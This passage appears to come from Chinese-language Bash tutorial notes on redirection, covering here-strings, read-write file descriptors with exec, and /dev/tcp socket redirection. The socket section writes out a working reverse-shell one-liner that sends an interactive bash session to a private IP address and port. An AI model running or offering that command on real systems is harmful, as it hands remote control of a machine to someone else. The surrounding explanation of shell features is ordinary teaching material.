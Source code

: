 通常用来简化 `echo xxx |`

```
awk '{print $0}'  <<<hello
hello
```

但是也支持其他 expansion

### [n]<>file

双向重定向，同时打开n作为写和读的文件描述符，==默认使用stdin==

```
#会将EOF写入到文件中
[cpl@cyberpelican ~]$ echo test > file1
#cat会读取到EOF然后停止，等价与重新写入到file1
[cpl@cyberpelican ~]$ cat 0<> file1
test
[cpl@cyberpelican ~]$ cat file1
test
```

==结合exec有特殊用法==，当前shell &3的内容被输入到tempfile，tempfile的内容被输入到当前shell  &3，删除文件时还是可以从&3读取到内容

```
[cpl@cyberpelican ~]$ F=$(mktemp)
[cpl@cyberpelican ~]$ exec 3<>$F
[cpl@cyberpelican ~]$ echo hello world > $F
[cpl@cyberpelican ~]$ cat $F
hello world
[cpl@cyberpelican ~]$ rm -f $F
[cpl@cyberpelican ~]$ cat <&3
hello world
```

### socket redirection

> 只适用 Bash shell

- `/dev/tcp/host/port`

  If host is a valid hostname or Internet address, and port is an integer port number or service name, Bash attempts to open the corresponding TCP socket.

- `/dev/udp/host/port`

  If host is a valid hostname or Internet address, and port is an integer port number or service name, Bash attempts to open  the corresponding UDP socket.

  常用 reverse shell

  ```
  bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
  ```

  具体参考 [/dev/tcp/host/port]()

### sub shell redirection
